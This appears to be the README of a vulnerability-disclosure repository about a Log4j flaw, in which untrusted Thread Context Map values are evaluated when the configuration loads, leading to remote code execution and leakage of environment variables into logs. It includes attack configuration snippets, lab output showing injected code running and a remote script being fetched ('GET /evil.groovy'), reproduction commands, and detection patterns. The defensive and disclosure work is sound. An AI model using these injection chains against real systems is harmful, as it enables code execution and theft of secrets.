

# Log4j: configuration-time evaluation of untrusted Thread Context Map data → RCE

> **Disclosure status — first and only disclosure.**
> This repository is the **first and only public disclosure** of the issue described below.
> Before this repository was published the issue had **not** been reported to the Apache
> Logging Services project, **not** sent to any vendor, **not** shared with any third party,
> and **not** published in an advisory, mailing list post, blog, conference talk, preprint,
> issue tracker, or chat anywhere else. No prior disclosure exists.
>
> If you run Log4j and this affects you, please forward this to the vendor:
> <security@apache.org> (the Apache Logging Services security process, per
> <https://logging.apache.org/security.html>).

**Component:** `org.apache.logging.log4j:log4j-core`
**Severity:** Critical
**CVSS 3.1:** `10.0 AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`
**CWE:** CWE-917 (improper neutralization of special elements in an outbound message) →
CWE-94 (improper control of generation of code) / CWE-200 (information exposure)
**Affected:** `log4j-core` 2.14.1 – **2.26.1** (current release) — verified by execution
**Not affected:** `log4j-api` alone (no lookup engine), `log4j-1.2-api` bridge,
`log4j` 1.x (different code path), Log4j 3.x (JNDI removed; the substitutor split below is
unchanged, so the same defect is expected there — source-level only, see *Limitations*)
**Found:** 2026-10-23

---

## 0. In one sentence

**If your application puts data an attacker can influence into the Thread Context Map (MDC),
and Log4j loads or reloads its configuration while that data is there, the attacker controls
the code your application runs — on the current Log4j release, with no exploit and nothing in
the logs to show for it.**

The data in question is ordinary: an HTTP header, a query parameter, a user name, a correlation
id. The window in question is ordinary too: the first time your application logs anything, or
any later reconfiguration.

---

## 1. What actually happens



In plain words:

1. **The attacker supplies data.** A `User-Agent` header, a query parameter, a user name — any
   value your application copies into the MDC.
2. **Your application logs something.** That is enough: Log4j loads its configuration at the
   first logger use, and the MDC already holds the attacker's value. A later
   `Configurator.reconfigure()`, a `monitorInterval`, a management endpoint or a plugin reload
   does the same thing.
3. **Log4j substitutes configuration values — recursively.** Configuration values, including
   every plugin attribute, are substituted with the substitutor that evaluates lookups *inside
   lookup results*. The MDC is one of the lookups (`${ctx:...}`), and Apache's own threat model
   says thread-context values are untrusted.
4. **The attacker's value is evaluated as a Log4j template.** If the configuration interpolates
   a lookup into a script attribute, the attacker's value *is* the script source.
5. **Log4j compiles and runs it inside your JVM**, with your application's privileges.

There is no error, no warning, and no unusual-looking event in the log stream. The payload
executes as ordinary configuration-driven behaviour.

---

## 2. Why this is so easy to miss

| what people expect | what happens |
| --- | --- |
| "The dangerous lookups were removed in 2.17.1" | **The message path was removed — the configuration path was not.** The recursive substitutor is still used for configuration values, and the MDC is still reachable from it. 2.26.1 is affected. |
| "My configuration does not mention JNDI" | It does not have to. Any lookup is enough, and the Thread Context Map is a lookup. |
| "A lookup in a layout is just a variable" | A lookup in a layout is evaluated **at configuration time**, and its result is evaluated again. That is the whole defect. |
| "My MDC holds only internal ids" | Only if you control it. Anything copied from a request — a header, a parameter, a user name — is attacker-controlled. Apache says so explicitly in its own threat model. |
| "It would show up in the logs" | It shows up as *normal* logging. And the second impact of this defect puts your environment variables and system properties into every log line. |
| "I'd need a vulnerable Log4j version" | **No.** The affected range starts at 2.14.1 and the current release, 2.26.1, is in it. |

---

## 3. What the attacker gets

Two impacts, both measured, both live in the current release.

| | impact | what it needs |
| --- | --- | --- |
| **Access** | **Arbitrary code execution in your application JVM**, with the application's privileges — database access, cloud metadata, credentials on disk, lateral movement | scripting enabled and a configuration that interpolates a lookup into a script attribute |
| **Collection** | **Your environment variables and system properties written into every subsequent log line** — the place cloud keys, database URLs and tokens live — and logs usually ship to an aggregator with a wider audience than the application | any configuration that references a lookup in a layout, e.g. `${ctx:...}` |

The collection impact needs *no* special configuration. Measured on 2.26.1:

| lookup | resolves to |
| --- | --- |
| `${env:HOME}` | `/home/hayden` |
| `${sys:user.name}` | `hayden` |
| `${java:version}` | `Java version 17.0.21-ea` |
| `${log4j:configLocation}` | `jar:file:/…/log4j2-ctx.xml!/log4j2-ctx.xml` |

And it is not a one-off: the resolved value is **baked into the pattern**, so it is written to
every line the application logs from then on.

---

## 4. How common is the precondition

Measured on GitHub code search (2026-10-23):

| pattern | public occurrences |
| --- | --- |
| `${ctx:` — a lookup into the Thread Context Map, in configuration | **6,816** |
| `${env:` — a lookup into the environment, in configuration | **299,008** |
| `log4j2.Script.enableLanguages` — scripting turned on | 79 |
| `log4j2.enableJndiLookup` | 194 |

`${ctx:...}` in a layout is a common idiom, and the number of public configurations that use it
is in the thousands. The MDC is populated with request data by a large share of frameworks and
application code — it is how a request id, a user, a tenant or a correlation id reaches the log
line.

---

## 5. The defect, for the people who read the source

Log4j keeps two substitutors with deliberately different policies.
`RuntimeStrSubstitutor` resolves a lookup but does **not** evaluate lookups inside the result.
`ConfigurationStrSubstitutor` does — its own javadoc says:

> *"A `StrSubstitutor` which only supports recursive evaluation of lookups. **This can be
> dangerous when combined with user-provided inputs, and should only be used on data directly
> from a configuration.**"*

Configuration values — including **every plugin attribute** — are substituted with the
*recursive* one at configuration load time:

```java
// log4j-core 2.26.1, config/plugins/util/PluginBuilder.java:185-194
.setStrSubstitutor(
        event == null
                ? configuration.getConfigurationStrSubstitutor()   // configuration load -> recursive
                : configuration.getStrSubstitutor())                // runtime -> top level only
```

The Thread Context Map is reachable as the `ctx` lookup, and Apache's own threat model states
that thread-context values are **untrusted**
(<https://logging.apache.org/security.html>: *"They do not trust the values stored in the thread
context."*).

**⇒ When Log4j loads or reloads its configuration while the Thread Context Map contains
attacker-controlled data, that data is evaluated as a Log4j template.**

Two triggers, either is enough:

* the MDC is populated before Log4j initialises — the configuration is loaded at the first
  logger use, so the value is already there when the substitution runs;
* the configuration is reloaded while the MDC holds the data — `Configurator.reconfigure()`,
  `monitorInterval`, a management endpoint, a plugin reload.

---

## 6. Impact A — remote code execution (critical)

A configuration that interpolates a lookup into a script attribute turns the defect into code
execution, because the substituted value becomes the **script source** Log4j compiles and runs:

```xml
<Filters>
  <ScriptFilter onMatch="NEUTRAL" onMismatch="DENY">
    <Script language="groovy" scriptText="${ctx:scriptText}"/>
  </ScriptFilter>
</Filters>
```

1. The attacker puts their payload into the Thread Context Map.
2. Log4j loads or reloads its configuration → the plugin attribute is substituted → the payload
   becomes the script text.
3. The next log event runs the filter → `ScriptManager.execute()` compiles and runs the
   attacker's code in the application JVM.

Measured:

```
=== PAYLOAD EXECUTED IN VICTIM JVM (script) ===
RCE via log4j script (config-time lookup evaluation) as hayden pid=9285
uid=1000(hayden) gid=1000(hayden) groups=1000(hayden),4(adm),24(cdrom),27(sudo),...
```

| log4j-core | 2.14.1 | 2.15.0 | 2.16.0 | 2.17.1 | 2.24.0 | 2.25.1 | **2.26.1** |
| --- | --- | --- | --- | --- | --- | --- | --- |
| RCE | yes | yes | yes | yes | yes | yes | **yes** |

A second variant lets the attacker choose the script *file*: `<ScriptFile path="${ctx:scriptPath}"/>`
→ `ScriptFile.createScript()` accepts a URI and fetches it
(`core/script/ScriptFile.java:104`: `uri.toURL().openStream()`), so Log4j downloads the
attacker's script and runs it. The lab captured the download:

```
SCRIPT <- GET /evil.groovy
```

Preconditions for this chain: scripting enabled (`log4j2.Script.enableLanguages` plus a JSR-223
engine on the classpath) **and** a configuration that interpolates a lookup into a script
attribute. Without an engine the chain fails closed.

---

## 7. Impact B — secret disclosure, no special configuration needed

Any configuration that references a lookup in a layout (`${ctx:...}`) and any application that
puts untrusted data in the MDC gets the value resolved **at configuration time** and baked into
the pattern, so the resolved value is then written to *every* subsequent log line.

Environment variables and system properties are where cloud keys, database URLs and tokens
live, and logs are usually shipped to aggregators with a wider audience than the application
itself. **CVSS 3.1:** `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` = 7.5 (High), or
`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N` = 8.5 when the log pipeline crosses a trust boundary.

---

## 8. Is your estate exposed?

Answer these five. If any of them is "yes", treat it as an incident until proven otherwise.

1. **Does your application put request-derived data into the Thread Context Map** — a header, a
   parameter, a user name, a tenant id?
2. **Does your Log4j configuration use a lookup in a layout** (`${ctx:...}`, `${env:...}`,
   `${sys:...}`) rather than the plain `%X{...}` / `%m` converters?
3. **Does any configuration attribute interpolate a lookup into a script** — `scriptText=`,
   `path=`, `fileName=`?
4. **Is scripting enabled** (`log4j2.Script.enableLanguages`), and is a JSR-223 engine on the
   classpath?
5. **Can your configuration be reloaded** — `Configurator.reconfigure()`, `monitorInterval`, a
   management endpoint, a plugin reload — while the MDC holds request data?

## 9. What to do now

* **Stop interpolating untrusted data into configuration attributes** — in particular never use a
  lookup for a script source or path.
* **Keep scripting disabled** (`log4j2.Script.enableLanguages` unset) unless it is required.
* **Keep the Thread Context Map free of untrusted input at configuration load/reload time**, or
  replace `${ctx:...}` in layouts with the plain `%X{...}` converter, which is not evaluated.
* **Treat environment variables and system properties as secrets; they must not reach logs.**
* Upstream fix direction: the configuration-time substitutor should not evaluate lookups whose
  values come from untrusted context data — the runtime substitutor already has exactly that
  policy, and the same rule should apply to context-data lookups in the configuration path.

---

## 10. Detection

* Grep the deployed configuration for script attributes that interpolate a lookup:
  `<Script[^>]*(scriptText|path)="[^"]*\$\{`.
* Check whether scripting is enabled: `log4j2.Script.enableLanguages` in the JVM flags or in
  `log4j2.component.properties`.
* Grep the deployed configuration for lookups in layouts: `\$\{(ctx|env|sys):`.
* Look for outbound HTTP(S) from the application at start-up or at reconfiguration — a
  configuration that fetches a script from a URL is visible on the wire.
* `StatusLogger` messages: `Error running script …`, `No script with name … has been declared`.
* For the disclosure impact: check whether a layout uses `${ctx:...}` instead of `%X{...}`, and
  whether the MDC carries request data.
* `scan/scan_log4j.py` classifies the Log4j versions in a dependency tree and flags
  configurations that interpolate a lookup into a script attribute.

---

## 11. Reproduce it (localhost only)

```bash
./setup.sh                 # fetch jars + Log4j sources
./lab/build.sh             # compile victim / attacker / payload
./lab/run_script_rce.sh 2.26.1 startup   # -> RESULT ... RCE
./lab/run_script_rce.sh 2.26.1 reload    # same, via a reconfiguration
./lab/verify.sh            # 34 assertions over every claim in WORKUP.md
```

All traffic binds to `127.0.0.1`. The lab contacts no third-party host, scans nothing, and
carries no target list. The command it executes in the victim JVM is `id`.

---

## 12. Repository contents

| Path | What it is |
| --- | --- |
| `WORKUP.md` | the full write-up: root cause with `file:line` evidence (Log4j **and** JDK sources), the measured exploitability matrix, the audit of what is closed in the current release, detection, remediation, and limitations |
| `lab/` | the proof-of-concept: victim apps, the malicious LDAP server, the script chain, and `verify.sh` (34 assertions) |
| `scan/scan_log4j.py` | finds Log4j in a project tree, classifies the versions, and flags configurations that interpolate a lookup into a script attribute |
| `setup.sh` | downloads the jars and sources the lab needs (nothing large is stored in git) |
| `sources/`, `lib/`, `analysis/` | downloaded artifacts and unpacked sources, created by `setup.sh` |

The lab also reproduces the historical, already-public Log4Shell chain (`log4j-core` ≤ 2.14.1)
and the 2.15.0/2.16.0 variants, for comparison — see `WORKUP.md` Part I.

The classpath-resource finding from the same audit lives in
<https://github.com/vindeckyy/log4j-classpath-plant-rce>.

---

## 13. Scope and ethics

* Every server in this repository listens on `127.0.0.1`; no external host is ever contacted.
* The payload executes `id` and writes a proof file; it does not persist, spread, or scan.
* No third-party system was tested, scanned, or contacted at any point.
* These labs are for testing systems you own or are authorised to test. The default Log4j
  configuration (`log4j2.xml`) is not vulnerable to Impact A; that chain needs a configuration
  that interpolates untrusted data into a script attribute.

---

## 14. Limitations

* Log4j 3.x is analysed at source level only: the `3.0.0-beta3` API artifact is not published
  to Maven Central, so it could not be executed here.
* Whether an attacker can trigger a *remote* configuration reload depends on the application,
  not on Log4j.
* The MDC is one of several context-data sources; a custom `ContextDataInjector` behaves the
  same way.
* The script chain was demonstrated with Groovy; any other JSR-223 engine behaves the same.
* The occurrence counts in §4 are a snapshot of public code search on 2026-10-23 and are a
  lower bound on private estates.

---

## 15. License

Apache License 2.0 — see `LICENSE`.
